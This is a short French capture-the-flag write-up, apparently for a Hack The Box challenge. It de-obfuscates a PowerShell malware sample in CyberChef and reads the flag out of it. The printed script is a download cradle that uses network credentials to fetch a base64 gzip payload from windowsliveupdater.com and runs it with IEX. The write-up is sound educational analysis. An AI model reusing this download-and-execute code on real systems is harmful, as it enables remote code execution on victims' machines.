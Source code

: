 1. On a un script powershell
2. Mettre le script dans cyberchef, et utiliser l'ingrédient "Generic Code Beautify", on obtient :

```
if ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name  - ne 'secret_HQ\Arth')  {
    exit
};
$w = New - Object net.webclient;
$w.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials;
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33'  +  '96f3bf5a605cc4'  +  '1bd0d6e229148'  +  '2a5/2_34122.gzip.b64');
$s = New - Object IO.MemoryStream(, [Convert]::FromBase64String($d));
$f = 'H'  +  'T'  +  'B'  +  '{p0w3rs'  +  'h3ll'  +  '_Cr4d'  +  'l3s_c4n_g3t'  +  '_th'  +  '3_j0b_d'  +  '0n3}';
IEX (New - Object IO.StreamReader(New - Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

3. Premier "if" vérifie le nom de machine, ensuite création d'un client web, une requête effetucée sur windowsliveupdater.com pour télécharger un fichier zip, ensuite le fichier zip est base64 décodé, la variable $f contient notre flag : **HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
